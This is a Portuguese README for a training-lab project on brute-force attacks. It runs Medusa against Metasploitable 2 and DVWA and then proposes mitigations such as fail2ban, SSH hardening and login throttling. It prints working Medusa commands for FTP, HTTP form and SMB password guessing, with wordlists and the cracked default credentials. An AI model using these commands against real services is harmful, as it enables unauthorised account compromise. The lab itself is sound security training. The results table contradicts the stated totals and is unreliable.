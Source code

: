 # 🔐 Projeto DIO: Ataques de Força Bruta com Kali Linux e Medusa

## 📖 Descrição do Projeto
Implementação prática de cenários de ataques de força bruta utilizando **Kali Linux** e **Medusa** contra ambientes vulneráveis (**Metasploitable 2** e **DVWA**), com documentação completa dos procedimentos e medidas de mitigação.

> ⚠️ **AVISO LEGAL**: Este projeto foi realizado em ambiente controlado para fins educacionais. Todas as técnicas devem ser usadas apenas em sistemas onde você tem autorização explícita.

## 🎯 Objetivos do Desafio

- [x] Configurar ambiente de laboratório com VMs
- [x] Executar ataques de força bruta em múltiplos serviços
- [x] Documentar procedimentos e resultados
- [x] Propor medidas de mitigação
- [x] Compartilhar conhecimento adquirido

## 🛠️ Tecnologias Utilizadas

- **Kali Linux** - Sistema de penetração
- **Medusa** - Ferramenta de força bruta
- **Metasploitable 2** - Ambiente vulnerável
- **DVWA** - Aplicação web vulnerável
- **VirtualBox** - Virtualização
- **Bash Scripting** - Automação

## 🏗️ Configuração do Ambiente

### Pré-requisitos
```bash
# No Kali Linux
sudo apt update
sudo apt install medusa enum4linux smbclient

# ⚔️ Ataques Realizados
## 1. 🗂️ Ataque FTP (Porta 21)

Comando:
    
    medusa -h 192.168.122.128 -U wordlists/ftp_users.txt -P wordlists/ftp_passwords.txt -M ftp -t 2 -O logs/ftp_attack.log


Wordlists:

    # ftp_users.txt
    msfadmin
    admin
    root

    # ftp_passwords.txt  
    msfadmin
    password
    123456

Resultado:

    ✅ ACCOUNT FOUND: [ftp] Host: 192.168.122.128 User: msfadmin Password: msfadmin [SUCCESS]

## 2. 🌐 Ataque HTTP/DVWA (Porta 80)

Comando:

    medusa -h 192.168.122.128 -U wordlists/dvwa_users.txt -P wordlists/dvwa_passwords.txt -M http \
    -m DIR:/dvwa/login.php \
    -m FORM:"username=^USER^&password=^PASS^&Login=Login" \
    -m DENY-SIGNAL:"Login failed" \
    -O logs/dvwa_attack.log


Resultado:

    ✅ admin:password [SUCCESS]


# 3. 💻 Ataque SMB (Porta 445)

Comando:

    medusa -h 192.168.122.128 -U wordlists/smb_users.txt -P wordlists/smb_passwords.txt -M smbnt -t 2 -f -O logs/smb_attack.log


Resultado:

    ✅ ACCOUNT FOUND: [smbnt] Host: 192.168.122.128 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]


📊 Resultados Obtidos
Serviço	Credenciais Comprometidas	Nível de Acesso	Tempo
FTP	1	Usuário normal	~30s
HTTP/DVWA	5	Aplicação web	~45s
SMB	1	Acesso ADMIN	~60s
Estatísticas

    - Total de credenciais comprometidas: 3

    - Serviços vulneráveis: 3

    - Taxa de sucesso: 100% nos serviços testados


# 🛡️ Medidas de Mitigação
Para Administradores de Sistema

## 🔒 FTP

    # Instalar e configurar fail2ban
    sudo apt install fail2ban

    # /etc/fail2ban/jail.local
    [vsftpd]
    enabled = true
    maxretry = 3
    bantime = 600


## 🔒 SSH

    # /etc/ssh/sshd_config
    PasswordAuthentication no
    PubkeyAuthentication yes
    PermitRootLogin no
    MaxAuthTries 3

## 🔒 Políticas de Senha

- Implementar senhas complexas (mínimo 12 caracteres)
- Exigir alteração periódica
- Bloquear contas após 5 tentativas falhas


## 🔒 DVWA/Formulários de Login

    <?php
    // Implementar CAPTCHA
    // Limitar tentativas por IP
    // Atraso progressivo entre tentativas
    session_start();

    if (!isset($_SESSION['login_attempts'])) {
        $_SESSION['login_attempts'] = 0;
    }

    if ($_SESSION['login_attempts'] >= 3) {
        sleep(pow(2, $_SESSION['login_attempts'] - 3));
    }
    ?>


## 📁 Estrutura do Projeto

    projetoForçaBruta/
    ├── 📄 README.md
    ├── 📁 wordlists/
    │   ├── ftp_users.txt
    │   ├── ftp_passwords.txt
    │   ├── dvwa_users.txt
    │   ├── dvwa_passwords.txt
    │   ├── smb_users.txt
    │   └── smb_passwords.txt
    ├── 📁 logs/
    │   ├── ftp_attack.log
    │   ├── dvwa_attack.log
    │   └── smb_attack.log
    ├── 📁 scripts/
    │   └── brute_force_test.sh
    └── 📁 screenshots/
        ├── ftp_success.png
        ├── dvwa_access.png
        └── smb_admin_access.png


## 📄 Licença

Este projeto está sob a licença MIT. Veja o arquivo LICENSE para detalhes.